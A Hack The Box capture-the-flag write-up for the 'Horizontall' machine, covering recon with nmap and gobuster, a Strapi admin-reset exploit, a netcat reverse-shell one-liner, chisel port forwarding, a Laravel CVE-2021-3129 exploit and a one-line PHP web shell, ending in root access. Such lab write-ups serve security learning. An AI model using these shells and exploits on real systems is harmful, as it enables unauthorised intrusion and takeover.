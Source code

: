 ```yaml
---
layout: default
title : muzec - Horizontall HTB Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/148056566-bbff1385-857b-4625-8ab1-6a2af94f624c.png)

We always start with an nmap scan.....

```
nmap -p- --min-rate 10000 -oA nmap/allports -v IP
```

```
# Nmap 7.91 scan initiated Thu Dec 30 08:30:37 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.10.11.105
Warning: 10.10.11.105 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.10.11.105 from 320 to 640 due to 570 out of 1899 dropped probes since last increase.
Increasing send delay for 10.10.11.105 from 640 to 1000 due to 1398 out of 4658 dropped probes since last increase.
Nmap scan report for 10.10.11.105
Host is up (0.24s latency).
Not shown: 52107 closed ports, 13426 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec 30 08:31:48 2021 -- 1 IP address (1 host up) scanned in 70.64 seconds
```

Interesting two open ports let throw some service detection and scripts switch on it to confirm what we have running on it we can already see it `SSH and HTTP` but let keep it flashy lol.


```
nmap -sC -sV -oA nmap/normal -p 22,80 IP
```

```
# Nmap 7.91 scan initiated Thu Dec 30 08:32:40 2021 as: nmap -sC -sV -oA nmap/normal -p 22,80 10.10.11.105
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 08:32:58 2021 -- 1 IP address (1 host up) scanned in 18.10 seconds
```

Now that is more flashy we are checking the `HTTP` first make sure to add `IP` and `horizontall.htb` to your host file. 

![image](https://user-images.githubusercontent.com/69868171/148058010-51883f76-4001-4249-8ff8-5b81caaeadb8.png)

Now next thing to do is to check the source page but we got nothing let burst some directories and subdomain to find some hidden page.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]                                                                                                              
└─$ gobuster dir -u http://horizontall.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak,sh -o gobuster.req
/index.html           (Status: 200) [Size: 901]
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```

But i got nothing on the domain let check subdomain.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ gobuster vhost -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
```

Boom we got a subdomain which is cool add again to our host file now let access it to see what in store for us.

![image](https://user-images.githubusercontent.com/69868171/148062275-4fb13163-e6d1-4efc-8fbc-1dd8d154b02d.png)

We got a welcome message and the rest is blank so i try adding `/admin` and the back of the subdomain you can also burst directories you will get it i just guess it and boom it work.

![image](https://user-images.githubusercontent.com/69868171/148062675-e9ac9161-42c1-46fa-893c-44a25d29fc5c.png)

Seems we are dealing with `strapi cms` using some default credentials and we got no luck let see what we can find on google.

```
http://api-prod.horizontall.htb/admin/strapiVersion
```

![image](https://user-images.githubusercontent.com/69868171/148063058-83731e9c-e26b-42a0-a275-8d7dff3a6a5d.png)

We found the version let confirm if the version is vulnerable.

![image](https://user-images.githubusercontent.com/69868171/148063158-3b9f1297-0025-438b-82e4-63185c98da86.png)

Boom let download the exploit to try it out.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ python3 50239.py http://api-prod.horizontall.htb/
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxMzAxNDYxLCJleHAiOjE2NDM4OTM0NjF9.50jv0hWWZ3KBCn-U0EIA2qNHkE7e4ddOrksf0yQuzbI


$> 
```

We are in but when i try to run a command i got some error.

![image](https://user-images.githubusercontent.com/69868171/148063509-0ca789cf-2460-4239-902c-24fb3088a990.png)

Smooth let try to transfer the shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Ncat ready to catch the reverse shell.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ nc -nvlp 1337 
listening on [any] 1337 ...
```

![image](https://user-images.githubusercontent.com/69868171/148063865-42bb052d-091e-43af-ab79-5c068c273ffa.png)

Boom more better let spawn a full tty shell.

![image](https://user-images.githubusercontent.com/69868171/148064159-1c37afcb-c021-47a0-9400-2910af4c55df.png)

Now let get the `user.txt` first.

![image](https://user-images.githubusercontent.com/69868171/148064371-d5a6ccdf-8b9e-4c78-af23-be84f14e9a9d.png)

Boom now let try to move our privilege.

![image](https://user-images.githubusercontent.com/69868171/148064681-013ed459-8775-447e-8745-780e199c84a3.png)

Found a credentials but when i try to use it for the user `developer` i got no luck so let check for `SUID` .

![image](https://user-images.githubusercontent.com/69868171/148064882-ee502a39-1232-45d7-a933-3c47ae9e8fb6.png)

Nothing also let check what ports we have running locally with us.

```
ss -tulpn
```

![image](https://user-images.githubusercontent.com/69868171/148064999-3cb0bfda-e916-4888-8359-c9e7fd9a98f9.png)

Boom we have a port let try to port forward using `chisel` first of all we need to transfer a copy of `chisel` binary to the target.

![image](https://user-images.githubusercontent.com/69868171/148065402-e6d6b3b0-913e-4d0c-b011-6331017f362c.png)

Now let start the server on our attacking machine.

```
./chisel server -p 9000 --reverse &
```

![image](https://user-images.githubusercontent.com/69868171/148065782-0450945b-8aea-4f23-93ca-a7aec4ccd2fb.png)


Now on the target.

```
./chisel client 10.10.14.7:9000 R:9001:127.0.0.1:8000 &
```

![image](https://user-images.githubusercontent.com/69868171/148065987-7ddf2b02-0bf1-4f37-9ac2-006da12b9c52.png)

We are ready to access it now.

```
127.0.0.1:9001
```

![image](https://user-images.githubusercontent.com/69868171/148066115-698d5f6f-0194-43f2-a839-483ee9475c42.png)

Boom we found a Laravel v8 (PHP v7.4.18) version seems cool let confirm if it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/148066426-3fe2f56c-2852-4811-93c0-ac968121204c.png)

Boom jackpot let give it a shot.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105/CVE-2021-3129]
└─$ python3 exploit.py
[*] Try to use monolog_rce1 for exploitation.
[*] Result:
uid=0(root) gid=0(root) groups=0(root)

[*] Try to use monolog_rce2 for exploitation.
[*] Result:
uid=0(root) gid=0(root) groups=0(root)

[*] Try to use monolog_rce3 for exploitation.
[*] Result:
[-] RCE echo is not found.
```

Exploit working now let try to get a reverse shell let edit the exploit to wget our shell file to the server.

```
//Save in shell.php//

<?php system ($_GET['cmd']); ?>
```

Now let start our python server.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ python -m SimpleHTTPServer                       
Serving HTTP on 0.0.0.0 port 8000 ...
```

![image](https://user-images.githubusercontent.com/69868171/148067410-2d46be44-92c9-41a2-a383-28f654bdba68.png)

Now let save and run the exploit again.

![image](https://user-images.githubusercontent.com/69868171/148067535-3b5b5bc1-2b61-4957-a7d8-bb270bf61766.png)

Which confirm our file has been transfered let confirm it.

![image](https://user-images.githubusercontent.com/69868171/148067657-f631d551-3c39-427b-8c78-7f3812532dbc.png)

Flashy right hehehehehe let get a reverse shell back to our terminal now.

![image](https://user-images.githubusercontent.com/69868171/148067929-c79d26d1-0645-4082-a0af-00ab9a96f7bf.png)

Bruhhhhhhhh you just got yourself a root you are l33t and thanks for reading my writeup between peace out.


Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
